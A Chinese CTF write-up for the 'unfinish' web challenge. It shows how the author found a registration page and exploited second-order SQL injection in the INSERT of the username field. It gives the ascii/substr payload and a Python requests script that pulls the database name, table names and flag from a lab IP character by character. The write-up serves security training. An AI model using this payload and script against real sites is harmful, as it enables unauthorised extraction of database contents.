




# unfinish
## 题目描述
SQL
## 思路
http://220.249.52.133:43624  
点开链接，是一个登录界面，随便用了几个邮箱，无法登录，并且发现会对输入的邮箱地址进行检查和过滤，例如：  
  
空格他都给检查出来了，用了 sqlmap，也说没法注入，只好另辟蹊径，用御剑扫一下，看看有没有其他文件。扫描过程中也没闲着，注意到 url 的后缀是 login.php，根据命名原则，是不是应该有注册页面呢？因此，尝试了一下 register.php，竟然成功了：  
  
随便注册一个邮箱，然后登录，发现 url 的后缀是 index.php，并且只有用户名部分回显了，另外就是给了张图片，别无内容：  
  
结合题目描述，和 sql 有关，大概率是在注册那个页面做文章了。得出这个结论主要基于两点，第一，御剑扫描返回的结果有三个主要文件，login.php、register.php、config.php，其中 config.php 打开没有任何内容，至少是没有可显示的内容，如此说明，只能在 login.php 和 register.php 上做文章；第二，所有的输入，只有注册页面的用户名部分回显了。根据以上两点，只有 register.php 可能被用来做获取 flag 的点。  
  
下面需要一点脑洞。猜测注册时，是向数据库中插入注册的信息，即  
```php
insert into tables values('$email','$username','$password')
```
如果执行成功，那么跳转到 login.php，那么我们在 register.php 中的 insert 语句注入 username，在 index.php 中显示注入的结果，据此构造 payload：  
```
0'+ascii(substr((select database()) from 1 for 1))+'0
```
这样，插入信息时，就变成了这样：  
```php
insert into tables values('$email','0'+ascii(substr((select database()) from 1 for 1))+'0','$password')
```
成功回显：  
  
接下来，写脚本，爆破数据库名（web），爆破表名（没爆出来，猜了俩，一个 ctf，一个 flag，结果 flag 对了），以及获取 flag：  
```python
import requests
import re

register_url = "http://220.249.52.133:43624/register.php"
login_url = "http://220.249.52.133:43624/login.php"
database = ""
table_name = ""
column_name = ""
flag = ""
'''
#获取数据库名
for i in range(1,10):
    register_data = {
        'email':'admin@ctf.com'+ str(i),
        'username':"0'+ascii(substr((select database()) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    login_data = {
        'email':'admin@ctf.com'+ str(i),
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    database = database + chr(int(asc))
print('database:',database)

#获取表名
for i in range(1,20):
    register_data = {
        'email':'admin@ctf.com'+ str(i),
        'username':"0'+ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    print(r.text)
    login_data = {
        'email':'admin@ctf.com'+ str(i),
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    r.encoding = r.apparent_encoding
    print(r.text)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    table_name = table_name + chr(int(asc))
print('table_name:',table_name)
'''
#获取flag
for i in range(1,100):
    register_data = {
        'email':'admin@ctf.com'+ str(i) + str(i),
        'username':"0'+ascii(substr((select * from flag) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    login_data = {
        'email':'admin@ctf.com'+ str(i) + str(i),
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    flag = flag + chr(int(asc))
print('flag:',flag)
```
最终，通过脚本获得 flag：  
  
